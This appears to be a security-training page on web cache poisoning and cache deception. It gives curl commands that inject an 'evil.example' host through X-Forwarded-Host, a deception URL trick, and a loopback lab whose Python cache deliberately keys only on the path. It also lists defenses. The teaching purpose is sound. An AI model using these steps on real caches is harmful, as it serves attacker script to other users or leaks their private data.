

# 🗄️ Web Cache Attacks

> [!warning] Authorized simulation only
> Cache attacks can serve poisoned content to *other users* or leak *other users'* private data. Prove them in a lab you build with synthetic data, and treat production testing as high-risk requiring explicit authorization. Use benign markers only.

## Parent Learning Order
Server-Side Request Forgery -> HTTP Request Smuggling -> Web Cache Attacks -> WAF Testing & Bypass Methodology

## Start at Zero: Attacking the Thing That Serves Many Users One Copy

A **web cache** (CDN edge, reverse proxy) stores a copy of a response and serves it to many users, to cut latency and load (the mechanism is in the Networking Application Delivery leaf). That "one copy for many users" property is exactly what makes it an attack target: if an attacker can get a *malicious* copy into the cache, it is served to every subsequent user; and if the cache stores a *private* response under a key others can request, it leaks that user's data.

Two attacks exploit this from opposite directions:

| Attack | Direction | Result |
| --- | --- | --- |
| **Cache Poisoning** | Attacker puts bad content *into* the cache | Malicious response served to all users |
| **Cache Deception** | Attacker tricks the cache into storing a *victim's private* response | Attacker retrieves another user's data |

Both hinge on the **cache key** — the set of request features the cache uses to decide "is this the same request?" A mismatch between what the cache keys on and what the server uses to build the response is the vulnerability.

> [!tip] The analogy, and where it breaks
> Cache poisoning is like slipping a forged notice into a shared bulletin board everyone reads; cache deception is like a shared printer caching your private document under a name a stranger can retrieve. The analogy breaks on *scale and automation* — the "bulletin board" serves millions instantly, and the attacker can precisely engineer which request features are keyed, so the poisoning is targeted and reproducible, not a hopeful pin on a corkboard.

**Prerequisites:** the Networking Application Delivery leaf (caching), HTTP headers, and cache-key concepts.

## Cache Poisoning: Getting Bad Content Cached

Cache poisoning exploits an **unkeyed input** — a request feature the server uses to build the response but the cache *ignores* when computing its key. If the server reflects an `X-Forwarded-Host` header into a response, but the cache keys only on the URL, then:

1. Attacker sends a request with a malicious `X-Forwarded-Host` (reflected into the response, e.g. a script URL).
2. The cache stores that poisoned response under the *normal* URL key (ignoring the header).
3. Every subsequent user requesting that URL gets the poisoned response — no header needed.

```bash
# find an unkeyed header that changes the response but not the cache key (your own lab cache)
curl -s "http://127.0.0.1:8112/page" -H "X-Forwarded-Host: evil.example" | grep -o 'evil.example'
```

```text
evil.example
```

The `X-Forwarded-Host` was reflected into the response. If the cache does not include that header in its key (the common case), this poisoned response gets cached and served to everyone — an XSS or redirect delivered at cache scale.

## Cache Deception: Stealing Private Responses

Cache deception works the other way: trick the cache into storing a *dynamic, private* page as if it were a *static, cacheable* file. If a cache is configured to cache anything ending in `.css` or `.js`, and the server ignores the extra path segment:

```text
attacker lures victim to:  /account/settings/nonexistent.css
server returns:  the victim's private /account/settings page (ignoring the .css)
cache stores it:  under the .css key, believing it's a static file
attacker then requests:  /account/settings/nonexistent.css  -> gets the VICTIM's cached private page
```

The victim's authenticated response is cached under a URL the attacker can request, so the attacker retrieves the victim's private data. The root cause is the same key mismatch: the cache decides "cacheable" from the extension, the server builds a private response, and they disagree.



## Failure Modes and Interpretation

- **Affects other users.** Both attacks impact people other than the tester — a poisoned cache serves everyone; deception steals a victim's data. Prove in a lab with synthetic users; production testing is high-risk.
- **Finding the unkeyed input.** Poisoning requires an input that changes the response but not the key — systematically test headers (`X-Forwarded-Host`, `X-Forwarded-Scheme`, etc.) for reflection *and* confirm the cache ignores them.
- **Cache-key opacity.** You often cannot see the exact cache key; infer it by observing which request changes produce a cache HIT vs. MISS. Misjudging the key wastes effort.
- **TTL and eviction.** A poisoned entry lasts only until it expires; the impact window is the TTL. Note it, and re-poisoning may be needed for sustained impact.
- **Benign proof.** Demonstrate with a harmless reflected marker (a canary hostname) that gets cached, not a working XSS against real users.

## Security Implications — Detection & Defense

- **Key the cache on everything the response depends on.** The definitive fix: if the server uses a header to build the response, that header must be part of the cache key (or the server must not reflect it). The mismatch is the vulnerability.
- **Do not reflect unkeyed input** into cacheable responses — `X-Forwarded-Host` and similar should never flow into a response the cache stores under a URL-only key.
- **Cache by content, not extension.** Deception is defeated by caching decisions based on actual content-type and cache-control headers, not the URL suffix — and by never caching authenticated/private responses.
- **`Cache-Control: private/no-store`** on personalized responses prevents them being cached at all — the direct deception fix.
- **Detection** looks for anomalous cache entries (a private page cached publicly) and for reflected-header content in cached responses; the durable defense is correct cache-key configuration, audited against what the server actually varies on.

## Authorized Lab: Poison a Cache You Build

> [!info] Runs on one Linux machine — builds a caching proxy in front of an app that reflects an unkeyed header
> Loopback, synthetic data. Step 5 removes it.

### Step 1 — Build a backend that reflects a header, and a cache that keys only on URL

```bash
cat > /tmp/cachelab.py << 'EOF'
import http.server, urllib.request
CACHE = {}   # keyed ONLY on path (the flaw: ignores headers the backend uses)
class Backend(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
        # backend reflects X-Forwarded-Host into the response (the unkeyed input)
        host = self.headers.get("X-Forwarded-Host","cdn.example")
        self.send_response(200); self.end_headers()
        self.wfile.write(f'<script src="//{host}/app.js"></script>'.encode())
    def log_message(self,*a): pass
import threading
threading.Thread(target=lambda: http.server.HTTPServer(("127.0.0.1",9002),Backend).serve_forever(), daemon=True).start()
class Cache(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
        key = self.path   # BUG: key ignores X-Forwarded-Host
        if key in CACHE:
            self.send_response(200); self.send_header("X-Cache","HIT"); self.end_headers(); self.wfile.write(CACHE[key]); return
        req = urllib.request.Request(f"http://127.0.0.1:9002{self.path}")
        for h in ("X-Forwarded-Host",):
            if h in self.headers: req.add_header(h, self.headers[h])
        data = urllib.request.urlopen(req).read()
        CACHE[key] = data
        self.send_response(200); self.send_header("X-Cache","MISS"); self.end_headers(); self.wfile.write(data)
    def log_message(self,*a): pass
http.server.HTTPServer(("127.0.0.1",8112),Cache).serve_forever()
EOF
python3 /tmp/cachelab.py &>/dev/null &
sleep 1; echo "cache :8112 in front of backend :9002 (cache keys on URL only)"
```

```text
cache :8112 in front of backend :9002 (cache keys on URL only)
```

### Step 2 — Attacker poisons the cache with a malicious header

```bash
curl -s "http://127.0.0.1:8112/page" -H "X-Forwarded-Host: evil.example" -D - | grep -E 'X-Cache|script'
```

```text
X-Cache: MISS
<script src="//evil.example/app.js"></script>
```

`X-Cache: MISS` means this response was just *stored* — and it contains the attacker's `evil.example` script URL, cached under the key `/page`.

### Step 3 — A normal victim now gets the poisoned response (the finding)

```bash
# victim requests /page WITHOUT any malicious header
curl -s "http://127.0.0.1:8112/page" -D - | grep -E 'X-Cache|script'
```

```text
X-Cache: HIT
<script src="//evil.example/app.js"></script>
```

`X-Cache: HIT` — the victim got the **cached poisoned response**, with the attacker's script URL, despite sending no malicious header. The poison is served to every user of that URL until the entry expires. That is cache poisoning, proven with a benign canary hostname.

### Step 4 — State the fix

```bash
echo "Fix: include X-Forwarded-Host in the cache key (or don't reflect it). The cache must key on"
echo "everything the response varies on — the key/response mismatch is the whole vulnerability."
```

```text
Fix: include X-Forwarded-Host in the cache key (or don't reflect it). The cache must key on
everything the response varies on — the key/response mismatch is the whole vulnerability.
```

### Step 5 — Cleanup

```bash
kill %1 2>/dev/null; rm -f /tmp/cachelab.py; wait 2>/dev/null
curl -s -o /dev/null -w "cache gone: %{http_code}\n" --max-time 2 http://127.0.0.1:8112/page 2>&1 | grep -o 'gone.*' || echo "cache gone: connection refused"
```

```text
cache gone: connection refused
```

**What you should now be able to do:** explain how the cache-key/response mismatch enables poisoning and deception, find an unkeyed reflected header, prove poisoning by showing a victim gets a cached malicious response, and name the correct-cache-key fix.

## Crook → Operator → Root Checkpoint

- **Crook:** Explain why a shared cache is an attack target, and the difference between poisoning (bad content in) and deception (private data out).
- **Operator:** Find an unkeyed reflected header, poison a cache so a victim gets the malicious cached response, and explain cache deception's extension trick.
- **Root:** Explain why the cache-key/response mismatch is the root of both attacks, why keying on everything the response varies on (and never caching private responses) is the fix, and how this relates to smuggling-based cache poisoning.

---
> 🔼 Up: [[HTTP Architecture & Advanced Web Attacks]]
